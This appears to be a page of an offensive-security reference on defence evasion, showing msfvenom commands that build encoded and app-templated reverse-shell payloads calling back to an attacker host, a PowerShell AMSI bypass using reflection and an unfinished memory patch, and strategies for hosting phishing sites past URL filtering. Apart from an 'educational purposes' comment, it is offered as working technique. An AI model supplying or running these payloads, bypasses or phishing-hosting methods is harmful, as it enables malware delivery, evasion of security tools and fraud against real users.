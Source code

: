 #### Implementation:
```bash
# Generate evasive payload using Metasploit
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 \
         -e x86/shikata_ga_nai -i 5 \
         -f exe -o evasive_payload.exe

# Use custom template
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 \
         -x legitimate_app.exe -k \
         -f exe -o templated_payload.exe
```

### 12. Windows Antimalware Scan Interface (AMSI) Bypass

**Definition:** Technique to bypass Microsoft's Anti-Malware Software Interface that scans scripts and macros during execution.

#### AMSI Bypass Methods:
- **Memory Patching:** Patch AMSI.dll in memory to disable scanning
- **DLL Unhooking:** Remove AMSI hooks from PowerShell process
- **Reflection Bypass:** Use .NET reflection to bypass AMSI
- **PowerShell Downgrade:** Use older PowerShell versions without AMSI

#### Technical Implementation:
```powershell
# AMSI bypass example (educational purposes)
$ref = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$field = $ref.GetField('amsiInitFailed','NonPublic,Static')
$field.SetValue($null,$true)

# Alternative memory patching approach
[Byte[]] $patch = [Byte[]](0x31, 0xC0, 0x05, 0x78, 0x01, 0x19, 0x7F, 0x05, 0xDF, 0xFE, 0xED, 0x00, 0xC3)
$pointer = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-ProcAddress kernel32.dll VirtualProtect), (Get-DelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
```

---

## Social Engineering and Phishing Bypasses

### 13. Hosting Phishing Sites

**Definition:** Advanced techniques for hosting and distributing phishing sites that bypass URL filtering and reputation systems.

#### Hosting Strategies:
- **Domain Fronting:** Use CDN services to hide true hosting location
- **URL Shorteners:** Mask malicious URLs with legitimate shortening services
- **Dynamic DNS:** Use frequently changing domain names
- **Legitimate Cloud Services:** Host phishing content on trusted platforms
